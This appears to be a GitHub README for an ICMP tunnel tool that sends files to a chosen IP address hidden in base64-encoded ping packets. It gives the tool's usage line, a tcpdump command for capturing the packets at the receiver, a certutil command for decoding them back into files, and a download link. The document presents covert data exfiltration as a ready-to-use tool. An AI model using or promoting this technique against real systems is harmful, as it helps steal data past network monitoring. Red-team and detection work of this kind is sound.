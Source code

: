 # Data Ex-filteration over ICMP Tunnel

__icmp_transmitter.exe__ is an executable used to send files on one system to another using icmp ping packets. The tool first converts the file(an exe, image, document etc) to base64 encoded text. This will then send the ping requests each with 64 characters of data taken from the base64 encoded text file. The tools needs a packet capture softwares on the other side to capture and record all the ping packets as .pcap or .txt files. Use the parser.sh to quickly parse the pcap file and have the text file with base64 encoded data. Once this is done, use certutil to convert back the text file into respective file format.

### Usage:

icmp_transmitter.exe "input_file_to_be_sent" "IP_address_to_be_sent"

at the server end:
 
run tcpdump. Use the following command :

```sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt```

Use certutil to decode the base64 data to respective format

```certutil -decode "base_64_encoded_textfile" "file.extention"```

The files and source code can be downloaded from: https://github.com/NotSoSecure/icmp_tunnel_ex_filtrate/releases
